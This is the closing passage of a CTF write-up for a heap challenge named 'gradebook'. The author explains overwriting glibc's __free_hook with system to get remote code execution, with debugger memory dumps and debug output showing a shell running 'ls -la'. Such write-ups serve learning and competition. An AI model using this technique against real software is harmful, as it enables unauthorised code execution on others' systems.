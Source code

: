 If we set the hook to any value other than 0, we get instant RCE. As a bonus the chunk passed to free is also the first argument, meanng if you control the data in the chunk, you may pass anything you want as the first argument.

All my exploit does is set the new name ptr as `&__free_hook`, and overwriting it with `system`. Prior to freeing the chunks to trigger `system`, you must have a chunk which will be freed which contains your command, so you can execute `system(your_cmd)`.

After overwriting name:

```
0x0000556f775ac7d0│+0x0000: 0x0000000000000000 // id
                              [length] [grade]
0x0000556f775ac7d8│+0x0008: 0x00000100ffffffff
0x0000556f775ac7e0│+0x0010: 0x00007f15844d1b28  →  0x0000000000000000 // name ptr (__free_hook)
```

And after the new name, `system` is written

```
0x0000556f775ac7d0│+0x0000: 0x0000000000000000
0x0000556f775ac7d8│+0x0008: 0x00000100ffffffff
0x0000556f775ac7e0│+0x0010: 0x00007f15844d1b28  →  0x00007f1584338410  →  <system+0> endbr64 
```

And finally, after we free:

```
$ ls -la
[DEBUG] Sent 0x7 bytes:
    b'ls -la\n'
[DEBUG] Received 0x177 bytes:
    b'total 2024\n'
    b'drwxr-xr-x  2 root root    4096 Nov 14 17:00 .\n'
    b'drwxr-xr-x 15 root root    4096 Nov 13 22:02 ..\n'
    b'-rw-r--r--  1 root root    2380 Nov 14 17:00 exp2.py\n'
    b'-rw-r--r--  1 root root    2367 Nov 12 20:35 exp.py\n'
    b'-rwxr-xr-x  1 root root   17608 Nov 11 21:34 gradebook\n'
    b'-rwxr-xr-x  1 root root 2029224 Nov 11 21:34 libc.so.6\n'
    b'-rw-r--r--  1 root root     283 Nov 12 22:34 notes.md\n'
total 2024
drwxr-xr-x  2 root root    4096 Nov 14 17:00 .
drwxr-xr-x 15 root root    4096 Nov 13 22:02 ..
-rw-r--r--  1 root root    2380 Nov 14 17:00 exp2.py
-rw-r--r--  1 root root    2367 Nov 12 20:35 exp.py
-rwxr-xr-x  1 root root   17608 Nov 11 21:34 gradebook
-rwxr-xr-x  1 root root 2029224 Nov 11 21:34 libc.so.6
-rw-r--r--  1 root root     283 Nov 12 22:34 notes.md
$  
```

# Conclusion

This was a nice challenge - i've never seen something as subtle as a format string mismatch in a ctf challenge before - it was only one character away from being correct.

Actually all of the challenges I tried were pretty fun - well except the math challenges, I dont wanna talk about that :|.

See you in 3 months time when I make another one of these, or it might be before. Idk.

Peace out.
